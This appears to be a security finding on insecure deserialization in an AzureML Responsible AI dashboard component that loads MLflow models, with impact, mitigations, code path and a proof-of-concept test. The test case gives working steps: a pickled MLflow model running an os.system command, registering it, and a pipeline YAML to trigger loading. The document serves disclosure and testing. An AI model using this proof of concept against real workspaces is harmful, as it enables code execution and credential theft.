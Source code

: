 - Vulnerability Name: Insecure Deserialization in RAI Insights Dashboard Constructor
- Description:
    1. An attacker can craft a malicious MLflow model.
    2. The attacker registers this model in AzureML Model Registry.
    3. The attacker then triggers a Responsible AI Dashboard pipeline job, providing the malicious model's ID as `model_id` input to the `rai_insights_constructor` component.
    4. The `rai_insights_constructor` component uses `mlflow.pyfunc.load_model` to load the registered model.
    5. If the malicious model contains serialized malicious payloads, these payloads will be deserialized during model loading.
    6. This deserialization can lead to arbitrary code execution on the compute instance running the RAI dashboard pipeline.
- Impact:
    - Critical: Arbitrary code execution on the AzureML compute instance. This could allow the attacker to steal credentials, access sensitive data, or further compromise the AzureML workspace and associated resources.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
    - None: The project relies on MLflow's model loading mechanism without additional security measures.
- Missing Mitigations:
    - Input validation: The `rai_insights_constructor` component should validate the model ID and potentially the model source before attempting to load it, to ensure it comes from a trusted source.
    - Sandboxing or isolation: The model loading and RAI computation process should be sandboxed or isolated to limit the impact of potential code execution vulnerabilities. Using secure deserialization practices or avoiding deserialization of untrusted data altogether would also mitigate this.
- Preconditions:
    - The attacker needs to be able to register a malicious model in the AzureML Model Registry. This might be possible if the attacker has contributor access to the workspace or if there are vulnerabilities in the model registration process itself (though not directly part of this project's code).
    - The user needs to trigger a Responsible AI Dashboard pipeline job using the attacker-controlled model ID.
- Source Code Analysis:
    - File: `/code/src/responsibleai/rai_analyse/create_rai_insights.py`
    - Step 1: The `create_rai_insights.py` script is the entry point for the `rai_insights_constructor` component.
    - Step 2: The script parses arguments, including `model_info_path`, `model_input`, and `model_info`. It prioritizes `model_info_path` and uses `fetch_model_id` and `load_mlflow_model` to load the model.
    - Step 3: `load_mlflow_model` function (defined in `/code/src/responsibleai/rai_analyse/rai_component_utilities.py`) uses `mlflow.pyfunc.load_model(model_uri)` to load the model.
    - Step 4: `mlflow.pyfunc.load_model` in MLflow is known to be vulnerable to insecure deserialization if the loaded model contains malicious serialized objects.
    - Visualization:
        ```
        User Input (Malicious Model ID) --> rai_insights_constructor component --> create_rai_insights.py --> load_mlflow_model --> mlflow.pyfunc.load_model (Vulnerable Deserialization) --> Code Execution
        ```
- Security Test Case:
    1. **Attacker creates a malicious model:**
        ```python
        import mlflow.pyfunc
        import pickle
        import os

        class MaliciousModel(object):
            def predict(self, data):
                os.system('touch /tmp/pwned') # Malicious command
                return [0] * len(data)

        # Create malicious payload
        malicious_code = MaliciousModel()

        # Save malicious model
        mlflow.pyfunc.save_model(
            path="malicious_model",
            python_model=malicious_code,
            serialization_format=mlflow.pyfunc.SERIALIZATION_FORMAT_PICKLE
        )
        ```
    2. **Attacker registers the malicious model in AzureML Model Registry** (using AzureML SDK or CLI, assuming attacker has access):
        ```python
        from azure.ai.ml import MLClient
        from azure.ai.ml.entities import Model
        from azure.identity import DefaultAzureCredential

        ml_client = MLClient.from_config(credential=DefaultAzureCredential())

        model_name = "malicious-rai-model"
        model_version = "1"

        malicious_model_asset = Model(
            path="malicious_model",
            type="mlflow_model",
            name=model_name,
            version=model_version,
            description="Malicious RAI Model"
        )
        registered_model = ml_client.models.create_or_update(malicious_model_asset)

        print(f"Registered model {registered_model.name}:{registered_model.version}")
        malicious_model_id = f"{registered_model.name}:{registered_model.version}"
        ```
    3. **User creates and submits a Responsible AI Dashboard pipeline job**, replacing `<MALICIOUS_MODEL_ID>` with the ID from the previous step in `pipeline.yaml`:
        ```yaml
        $schema: https://azuremlschemas.azureedge.net/latest/pipelineJob.schema.json
        experiment_name: RAI_Insecure_Deserialization_Test
        type: pipeline
        inputs:
          target_column_name: income
          my_training_data:
            type: mltable
            path: azureml:adult_train:1
            mode: download
          my_test_data:
            type: mltable
            path: azureml:adult_test:1
            mode: download
        settings:
          default_datastore: azureml:workspaceblobstore
          default_compute: azureml:cpucluster
          continue_on_step_failure: false
        jobs:
          create_rai_job:
            type: command
            component: azureml:rai_insights_constructor:1
            inputs:
              title: Insecure Deserialization Test
              task_type: classification
              model_info: <MALICIOUS_MODEL_ID> # Replace with malicious model ID
              train_dataset: ${{parent.inputs.my_training_data}}
              test_dataset: ${{parent.inputs.my_test_data}}
              target_column_name: ${{parent.inputs.target_column_name}}
              categorical_column_names: '["Race", "Sex", "Workclass", "Marital Status", "Country", "Occupation"]'
          gather_01:
            type: command
            component: azureml:rai_insights_gather:1
            inputs:
              constructor: ${{parent.jobs.create_rai_job.outputs.rai_insights_dashboard}}
        ```
    4. **Submit the pipeline job** using AzureML CLI: `az ml job create --file pipeline.yaml`
    5. **Verify code execution:** After the pipeline job completes (or even fails during the `rai_insights_constructor` step), check the compute instance or the logs for evidence of code execution. In this example, check if the `/tmp/pwned` file exists on the compute instance. If it does, the vulnerability is confirmed. You could also observe other malicious activities depending on the payload, like exfiltration of data or credential theft.